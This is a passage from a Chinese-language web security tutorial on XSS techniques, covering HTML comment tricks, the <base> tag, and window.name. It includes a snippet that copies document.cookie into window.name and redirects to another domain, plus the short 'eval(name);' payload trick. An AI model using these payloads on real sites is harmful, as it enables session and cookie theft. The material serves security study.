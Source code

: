     比如我们能控制两个文本框，第二个文本框允许写入更多的字节。此时可以利用 HTML 的注释符号，把两个文本框之间的代码全部注释掉，从而 “打通” 两个 `<input>` 标签。

### `<base>` 标签

这个标签的作用是定义页面上使用 “相对路径” 标签的 `hosting` 地址。比如：

```markup
<body>
    <base href="http://www.google.com/" />
    <img src="/int1/en_ALL/images/srpr/logolw.png" />
</body>
```

上面这段代码将会使得 `<img>` 标签中的图片从 `http://www.google.com/int1/en_ALL/images/srpr/logolw.png` 取得。

可见 `<base>` 标签是个极其危险的标签。所以在设计 XSS 安全方案时，一定要过滤掉这个非常危险的标签。

### `window.name` 的使用

`window.name` 对象是一个神奇的东西。如果对当前窗口的 `window.name` 对象赋值，没有特殊字符的限制。因为 window 对象是浏览器的窗体，而非 document 对象，很多时候不受同源策略的限制。攻击者利用这个对象，可以实现跨页面传递数据。

比如 `www.a.com/index.html` 的代码如下：

```markup
<body>
    <script>
        window.name = document.cookie;
        window.location = "http://www.b.com/index.html";
    </script>
</body>
```

这段代码将把在域 `www.a.com` 中的 `cookie` 携带到 `www.b.com` 这个域中。在后者中可以访问这个内容：

```markup
<body>
    <script>
        console.log(window.name);
    </script>
</body>
```

使用 `window.name` 可以缩短 XSS Payload 的长度，在目标站点只需要执行以下代码即可：

```javascript
eval(name);
```

这个只有 11 个字符。

这个技巧为安全研究者 luoluo 发现，另外它还整理了许多 XSS 长度绕过技巧（见 《突破 XSS 字符数量限制执行任意 JS 代码》）。

## 利用反射型 XSS

### Apache Expect Header XSS
